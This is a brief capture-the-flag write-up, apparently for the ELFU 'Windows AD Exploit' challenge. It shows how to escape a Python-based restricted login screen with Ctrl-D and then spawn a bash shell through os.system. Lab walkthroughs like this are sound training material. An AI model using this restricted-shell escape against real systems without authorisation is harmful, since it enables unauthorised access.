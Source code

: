 (ch8)=
Windows AD Exploit
=======================
Talk: [https://www.youtube.com/watch?v=iMh8FTzepU4](https://www.youtube.com/watch?v=iMh8FTzepU4)

[(https://register.elfu.org/register)](https://register.elfu.org/register)
![portal](images/elfu-portal.png)

we have to register in oder to get an account. The email you enter doesn't matter
so let's register and get credentials. 

we connect in ssh on the server and we got stuck in a screen like this: 
![screensplash](images/elfu-screen.png)

looking at portal server we saw it was served by a Python backend, so to try to close the screensplash 
we just replied to the question: "how do you get out of a python program?"
CTRL-D !!! and it worked :) 

```
: Traceback (most recent call last):
  File "/opt/grading_system", line 41, in <module>
    main()
  File "/opt/grading_system", line 26, in main
    a = input(": ").lower().strip()
EOFError
>>> import os 
>>> os.system('/bin/bash')
fbsjgeyymg@grades:~$ 
``` 
